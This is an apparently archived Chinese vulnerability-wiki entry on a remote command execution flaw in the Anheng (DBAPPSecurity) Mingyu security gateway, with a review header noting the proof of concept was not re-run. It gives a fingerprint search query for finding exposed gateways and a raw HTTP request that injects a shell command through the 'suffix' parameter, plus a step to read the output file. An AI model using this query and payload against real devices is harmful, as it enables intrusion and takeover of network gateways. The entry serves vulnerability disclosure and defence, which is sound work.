



# 安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：安恒明御安全网关
- 本文讨论：aaa_portal_auth_local_submit suffix注入
- 版本、权限与配置前提：bkg_flag=0，无Cookie，版本未知
- 资料类型：NGFW命令注入请求复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 原始HTTP包嵌{{urlenc(...)}}工具表达式，未指定处理工具，不能直接发送作为最终URL
- 请求/执行结果依赖截图；精确版本缺失

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 工具模板处理、匿名条件和版本待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

安恒 明御安全网关 aaa_portal_auth_local_submit 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

安恒 明御安全网关

## 网络测绘

```
body="/webui/images/basic/login/" && title=="明御安全网关"
```

## 漏洞复现

登录页面



验证POC

```
GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix={{urlenc(`id >/usr/local/webui/test.txt`)}} HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```



```
/test.txt
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
